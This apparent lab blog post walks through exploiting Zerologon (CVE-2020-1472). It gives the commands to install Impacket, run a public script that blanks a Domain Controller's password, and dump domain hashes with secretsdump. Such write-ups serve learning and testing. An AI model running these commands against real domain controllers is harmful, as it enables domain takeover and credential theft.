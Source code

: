 ```yaml
---
title: "CVE-2020-1472 Zerologon Exploit POC"
description: "Yet another Zerologon Exploit POC. We will be exploiting a vulnerable Domain Controller."
date: "2020-11-11"
categories: [Lab]
tags: [windows, zerologon, exploit, impacket]
pin: true
math: true
mermaid: true
image:
  path: "/assets/img/zerologon_poc/zlo.png"
  alt: "Zerologon"
---
```



## Impacket 0.9.22

At the time of this writing, we need to use an updated version of Impacket 0.9.22 or newer for this exploit to work. The current stable version of Impaket is 0.9.21.

![Current impacket stable version](/assets/img/zerologon_poc/impacket0921.png)

But before you install a new Impacket, you might want to create a vm snapshot before things go completely wrong. Alternatively, you can install Impacket in a docker and run as well. You can learn more about it in this [post](https://blog.ropnop.com/docker-for-pentesters/#example-3---impacket "Docker - Impacket"). But for the sake of this post, we will just install on our VM.

After creating a VM snapshot, remove any existing Impacket installation with the following command:

```

> apt remove --purge impacket-scripts python3-impacket

```

Here is the link to the Impacket newer version: [Impacket Link](https://github.com/SecureAuthCorp/impacket/tree/b867b21de5fcfd48686a04487e1ef83c2d1b5e47 "Impacket")

![Impacket 0.9.22](/assets/img/zerologon_poc/impacket0922.png)

```

> git clone https://github.com/SecureAuthCorp/impacket.git

> cd impacket

> pip install .

```


## Exploitaion

We will be using a script from [Risksense](https://github.com/risksense/zerologon "risksense/zerologon")

```

> git clone https://github.com/risksense/zerologon.git

> cd zerologon

```

And now run the script against the Domain Controller:

```python

> python3 set_empty_pw.py <DC-NAME> <ip-address>

```

![running set_empty_pw.py](/assets/img/zerologon_poc/set-set_empty_pw.png)

If the script ran successfully, there should be no password for the DC after that.


## Dumping hashes from DC

```python

> secretsdump.py -just-dc <DC-NAME>\$@10.10.10.1

```

![Hash dumping with secretdump.py](/assets/img/zerologon_poc/secretsdump.png)

And that's it. It's very easy to exploit. Hope you guys enjoyed it.

If you want to learn more about this exploit, Heath (TCM) has done a great video explaining about it. Here is the video: [ZeroLogon Exploit - Abusing CVE-2020-1472 (Way Too Easy!)](https://www.youtube.com/watch?v=6xMGsdD-ArI&ab_channel=TheCyberMentor "ZeroLogon Exploit - Abusing CVE-2020-1472 (Way Too Easy!)")
